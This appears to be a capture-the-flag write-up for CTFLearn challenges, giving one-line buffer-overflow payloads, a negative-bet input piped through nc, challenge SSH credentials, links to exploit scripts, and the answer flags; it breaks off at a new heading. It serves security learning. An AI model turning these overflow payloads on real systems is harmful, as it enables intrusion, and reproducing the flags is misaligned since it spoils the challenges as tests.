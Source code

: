 # Lazy Game Challenge

Trie negative number for the bet like -100000$. And finally it gave me flag.

Or if not, execute this command, it does everything automatically

```sh
printf "Y\n-1000000\n11\n11\n11\n11\n11\n11\n11\n11\n11\n11\n" | nc thekidofarcrania.com 10001
```

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{d9029a08c55b936cbc9a30_i_wish_real_betting_games_were_like_this!}
``
</details>

# Simple bof

Use [python scripts](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/scripts/simplebof.py)

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{buffer_0verflows_4re_c00l!}
``
</details>

# Favorite Color

Connect to the server `ssh color@104.131.79.111 -p 1001`
Entry the password `guest`

Now you are connect, if you entry `ls -la`, you see a file color.c

So fire the command to buffer overflow on the binary to gain acces to the flag file 

```sh
(python2 -c 'print "a"*52+"W\x86\x04\x08"';cat) | ./color
```

And if you have buffer overflow, you have just a `cat flag.txt` to get the flag

<details>
<summary markdown="span">Answer</summary>

flag :``
flag{c0lor_0f_0verf1ow}
``
</details>

# RIP my bof

Use [python scripts](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/scripts/ripbof.py)

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{c0ntr0ling_r1p_1s_n0t_t00_h4rd_abjkdlfa}
``
</details>

# Blackbox

Fire the command to string overflow on the binary to get the flag

```sh
python -c "print '11111111111111111111111111111111111111111111111111111111111111111111111111111111\x02\x00\x00\x00'" | ./blackbox
```

<details>
<summary markdown="span">Answer</summary>

flag :``
flag{0n3_4lus_1_1s_Tw0_dumm13!!}
``
</details>

# Cryptoversing

Xor `h_bO}EcDOR` with `0x10`  and `+G)uh(jl,vL` with `0x18` on [Cryptii](https://cryptii.com/) from Bitwise operation 

<details>
<summary markdown="span">Full explanation</summary>

[here](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/explanation_cryptoversing.md)
</details>

<details>
<summary markdown="span">Answer</summary>

flag :``
xOr_mUsT_B3_1mp0rt4nT
``
</details>

# Shell time!

Use [python scripts](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/scripts/shell.py)

Execute

```sh
python3 shell.py thekidofarcrania.com 4902
```

Write `cat flag2.txt` to get the flag

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{c0ngrat1s_0n_th1s_sh3ll!_SKDJLSejf}
``
</details>

# Leak me